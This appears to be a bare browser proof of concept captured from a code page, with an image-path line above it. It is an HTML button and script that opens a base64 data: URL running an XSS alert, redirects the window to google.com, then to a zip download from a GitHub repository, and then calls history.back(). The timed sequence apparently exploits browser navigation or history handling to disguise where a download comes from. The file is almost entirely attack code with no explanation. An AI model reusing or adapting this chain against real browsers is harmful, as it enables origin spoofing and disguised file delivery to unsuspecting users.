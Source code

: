 <button onclick="test()">clickme</button>

<script>

function test()

{

  w = open('data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=')

  setTimeout(function(){

    w.location = 'https://google.com/'

  }, 300)

  setTimeout(function(){

      w.location = 'https://github.com/orwagodfather/virustotalx/archive/refs/heads/main.zip'

      setTimeout(function(){

        w.history.back()

      }, 2100)

  }, 2000)

}

</script>

